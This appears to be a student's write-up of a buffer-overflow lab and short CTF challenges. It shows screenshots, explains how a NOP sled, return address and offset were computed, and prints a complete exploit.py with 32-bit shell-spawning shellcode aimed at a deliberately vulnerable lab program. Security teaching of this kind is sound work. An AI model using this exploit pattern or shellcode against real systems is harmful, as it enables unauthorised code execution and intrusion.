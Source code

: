 # Task 1

![alt text](img/Screenshot%202022-10-13%20at%2011.42.04.JPG)
32 bit shellcode

![alt text](img/Screenshot%202022-10-13%20at%2011.36.54.JPG)
64 bit shellcode

Both versions open a shell where we can use some commands.

# Task 2

![alt text](img/Screenshot%202022-10-13%20at%2012.15.48.JPG)

After creating a `badfile` with a length of 517 (we just copied the contents of `exploit.py` for ease of use), the program creates a buffer overflow.

![alt text](img/Screenshot%202022-10-13%20at%2015.45.35.JPG)

The values of the ebp and buffer address.

# Task 3

As we used the stack-L1, and this program was compiled in 32 bits, we used the value 32 bit shellcode in call_shellcode.c.

To fill the buffer with the maximum possible number of `NOP` values, we placed the start value at `517 - len(shellcode)`, as the buffer can take 517 bytes and we still leave space for the shellcode.

![alt text](img/Screenshot%202022-10-13%20at%2016.05.28.JPG)

The return variable used was the `ebp` in adition to the number `0x103`, as it should have a value between the address and the maximum possible number, 517.
The offset used was the `ebp` - buffer address + 4 bytes, as it'sa 32 bit architecture.

![alt text](img/Screenshot%202022-10-13%20at%2016.20.09.JPG)

Exploit ran successfully.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 0x103           # Change this number 
offset = 0xffffcb18 - 0xffffcaac + 4              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

exploit.py code

# CTF

## Desafio 1

![alt text](img/Screenshot%202022-10-18%20at%2009.05.39.png)

we followed the instructions given and then, after analysing the code , we gathered that the program would read 28 characters so we added 20 "a" before "flag.txt" to overflow.


## Desafio 2
![alt text](img/Screenshot%202022-10-18%20at%2017.34.57.JPG)

we gained access.

![alt text](img/Screenshot%202022-10-18%20at%2017.35.24.JPG)

we converted the file's name from hexadecimal to ASCII and ran the script.
